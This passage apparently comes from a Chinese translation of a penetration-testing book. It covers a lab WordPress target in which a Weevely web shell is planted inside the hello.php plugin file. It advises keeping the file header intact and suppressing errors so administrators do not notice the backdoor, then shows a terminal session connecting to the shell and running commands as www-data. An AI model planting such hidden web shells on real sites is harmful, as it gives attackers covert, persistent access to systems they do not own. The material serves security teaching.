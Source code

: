 ![Foothold](img/B09238_13_08.jpg)

图 13.7：替换 hello.php 文件的内容

### 注意

记住我们的 ROE。如果你修改应用程序文件，请格外小心，避免导致生产环境中长时间的宕机。始终备份，并在参与结束后尽快恢复更改，或者对应用程序的合法用户造成明显影响时恢复更改。

可能最好保持文件头部不变，以防任何管理员浏览插件时看到它。我们也可以保持文件的大部分内容不变，只要它不产生任何不必要的错误消息。PHP 警告和解析错误会干扰 Weevely，导致后门无法工作。我们已看到 `wpscan` 结果表明该应用程序没有屏蔽错误消息。为了保持隐蔽性，我们必须记住这一点。

在前面的代码块中，我们已经使用 `?>` 关闭了 `<?php` 标签，然后再粘贴 Weevely shell 的内容。一旦文件成功更新，Weevely shell 可以通过 URL `http://vulndocker.internal:8000/wp-content/plugins/hello.php` 访问：

```
**root@kali:~/tools# weevely http://vulndocker.internal:8000/wp-content/plugins/hello.php Dock3r%Knock3r**

**[+] weevely 3.2.0**

**[+] Target:    www-data@8f4bca8ef241:/var/www/html/wp-content/plugins**
**[+] Session:/root/.weevely/sessions/vulndocker.internal/hello_0.session**
**[+] Shell:    System shell**

**[+] Browse the filesystem or execute commands starts the** 
**[+] connection to the target. Type :help for more information.**

**weevely> uname -a**
**Linux 8f4bca8ef241 3.13.0-128-generic #177-Ubuntu SMP x86_64 GNU/Linux**
**www-data@8f4bca8ef241:/var/www/html/wp-content/plugins $** 

```
